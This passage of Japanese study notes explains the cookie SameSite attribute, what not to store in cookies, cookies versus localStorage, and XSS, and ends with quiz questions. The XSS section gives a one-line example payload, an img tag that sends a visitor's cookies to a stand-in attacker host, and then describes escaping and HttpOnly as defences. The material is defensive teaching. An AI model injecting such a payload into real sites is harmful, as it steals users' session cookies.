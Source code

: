 ### 9

`SameSite`属性とは、クッキーが送信されたドメイン名と異なるサイトからのリクエストの際に(`cross-site`のリクエスト)、クッキーを送信するかどうかを指定するための属性。

例えば、`cross.example.com`上にある`example.com`へのリンクをクリックする際に、`example.com`が受け取るリクエストは`cross-site`なリクエスト。

`cross-site`のリクエストに対して、

- `SameSite=Strict`の場合、クッキーを常に送信しない。
- `SameSite=Lax`の場合、リクエストが`GET`や`OPTIONS`等のsafeなメソッドで、かつ`Top Level Navigation`の場合のみ、クッキーが送信される。
  - `Top Level Navigation` : リクエストされたURLがアドレスバーに表示されるようなリクエスト
  - 例えば、imgやiframeでのリクエスト（クロスサイトサブリクエスト）ではクッキーは送信されず、ユーザーのリンククリックによるリクエストでは送信される。
- `SameSite=None`の場合、常にクッキーが送信される。

[SameSite 属性を使った Cookie のセキュアな運用を考える - 30歳からのプログラミング](https://numb86-tech.hatenablog.com/entry/2020/01/26/112607)

### 10

クッキーに格納しない方がいい値

- ユーザーのパスワード、クレジットカード番号等の個人情報
- 大量のデータ (4kb制限)
- 一般に公開したくないデータ、ユーザーから見られたくないデータ (devtools等から確認できてしまうため)
- 文字列以外のデータ (保存できるのはstringのみ)

### 11

クッキー: セッションID等、重要なデータを保存したい場合に使う。  
ローカルストレージ: 重要ではないデータ、5MB以内の少量なデータを保存したい場合に使う。

### 12

XSSとは、不正なスクリプトがWEBサイトに差し込まれてしまう脆弱性・それを使用した攻撃のこと。

例えば、XSS脆弱性があるサイトに、`<img src="atack.example.com/?cookie=document.cookie">`というHTMLを埋め込むことができれば、サイトに訪問したユーザーのクッキーを`atack.example.com`に送信することができてしまう。

対策としては、任意のスクリプト・HTMLを埋め込むことができないように、WEBページに出力するデータをエスケープしてから表示するようにする。その他には、HttpOnly属性をクッキーに付与することで、JavaScriptからのcookie読み取りを防ぐことができる。

- [Cross-site scripting (クロスサイトスクリプティング) - MDN Web Docs 用語集: ウェブ関連用語の定義 | MDN](https://developer.mozilla.org/ja/docs/Glossary/Cross-site_scripting)

## クイズ

### クイズ1

Domain属性とSameSite属性は、それぞれどのような場合に使用されますか？

<details><summary>回答例</summary></details>

### クイズ2

`example.com` が発行した`SameSite=Lax` が指定されているクッキーがあります。
